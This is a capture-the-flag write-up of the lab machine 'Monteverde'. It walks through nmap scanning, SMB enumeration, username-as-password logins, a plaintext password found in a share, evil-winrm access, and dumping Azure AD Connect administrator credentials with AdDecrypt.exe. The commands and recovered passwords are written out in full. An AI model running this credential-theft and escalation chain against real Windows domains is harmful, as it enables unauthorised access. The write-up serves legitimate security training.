 # Monteverde

![](images/info.PNG)

__Task__: Find [user.txt](#user-flag) and [root.txt](#root-flag)

### Penetration Methodologies

__Scanning__

- nmap

__Enumeration__

- enum4linux

- SMB Share enumeration

__Exploitation__

- Weak password policy

- Stored plaintext password

__Priv Esc__

- Azure AD Connect Service Privileged Account 

***

This is my write-up for the HackTheBox Windows machine _Monteverde_.

## User Flag

My first step is to run my `nmap` scan. _Monteverde_ is running a lot of services, which may indicate a Active Directory DC. 

```
# Nmap 7.80 scan initiated Thu May 28 15:05:20 2020 as: nmap -O -sV -sC -oN init172.txt 10.10.10.172
Nmap scan report for 10.10.10.172
Host is up (0.059s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-28 19:18:38Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/28%Time=5ED01992%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -46m55s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-28T19:21:03
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 28 15:10:35 2020 -- 1 IP address (1 host up) scanned in 315.60 seconds
```

After the results come back, I also run a full port scan to see if any additional ports may be open. 

```bash
$ nmap -O -sV -sC -p- -oN full172.txt 10.10.10.172
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The port that I make note of from the full scan is 5985. This tells me that the box is running `WinRM 2.0 (Microsoft Windows Remote Management)`. Once I find some credentials, I may be able to gain a foothold through this service.

Next, I run `enum4linux`, a tool primarily used to enumerate Windows or Samba systems.

```bash
$ enum4linux -U -o 10.10.10.169
```

One of the most crucial items I receive from `enum4linux` are users on the system. Two users stand out and our not like the others: AAD__987d7f2f57d2 and SABatchJobs. 

![](images/enum-users.png)

More enumeration doesn't yield much information and I don't have any potential passwords. HackTheBox doesn't generally encourage bruteforcing credentials, so I decide to use the two usernames from earlier as their own passwords. 

I have two potential services that accept logins, `SMB` and `WinRM`. I'll first try `SMB`. I can use `smbclient` to [enumerate shares](https://www.computerhope.com/unix/smbclien.htm) on _Monteverde_, but only if I have valid credentials. Fortunately, using the command and credentials below, I can sucessfully view the available shares.

```bash
$ smbclient -L 10.10.10.172 -U SABatchJobs%SABatchJobs
```

The available shared resources are displayed. I can now enumerate some of the file system. 

![](images/shares.png)

I connect to the various shares with `smbclient`.

```bash
$ smbclient \\\\10.10.10.172\\users$ -U SABatchJobs%SABatchJob
```

Within the `users$` share I find multiple user folders. As I poke around I discover that the user mhope has an interesting xml file. I retrieve it using the `get` command and find a password stored in cleartext.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I can only assume that this belongs to the user mhope. With luck, this user also uses the same password across services. I leave the shares behind for now and return to attempt remote access using `WinRM`. 

With the help of `evil-winrm`, a Windows Remote Management tool for pentesting, I gain a foothold on the machine.

```bash
$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

On the user's desktop, I find my first flag!

![](images/user-flag.png)

## Root Flag

Now that I have remote access to a user on the system, I need to see what permissions this account has and what groups they are apart of. I use the command `net user` to start.

```powershell
> net user mhope
[...]
Global Group memberships     *Azure Admins         *Domain Users
```

I omitted some of the results, but it looks like the user mhope is apart of the `Azure Admins` group. After some research on a potential CVE, I found [this article](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/), which provides great information on an exploit that allows a user to retrieve plaintext credentials of the privileged account being utilized by the Azure AD Connect.

I downloaded the two files `AdDecrypt.exe` and `mcrypt.dll` and uploaded them to _Monteverde_ using the built-in feature on `evil-winrm`.

![](images/uploads.PNG)

Afterwards, I navigate to the `Microsoft Azure AD Sync\Bin` directory, and run the executable. 

```powershell
> cd “C:\Program Files\Microsoft Azure AD Sync\Bin”
> C:\Users\mhope\AdDecrypt.exe -FullSQL
```

Pretty quickly I receive credentials. Fortunately for me, they are for the administrator account!

```
======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

I once again connect to the machine, this time with my newly attained credentials.

```bash
$ evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
```

I navigate to the Administrator desktop and collect the flag. _Monteverde_ rooted!

![](images/root-flag.PNG)


***

This was a fun box. At the time of this write-up, `SMB` is not one of my strengths, and I enjoy learning new ways of interacting with it. I also liked enumerating the machine, I can never get enough Windows enumeration. The password discovery at the beginning also felt realistic, lazy administrators may not consider the consequences of poor password practices on service accounts.

### Rankings:

__Real-life Applicable__: 7/10

__Common Vulnerabilities__: 9/10

__Enumeration__: 8/10

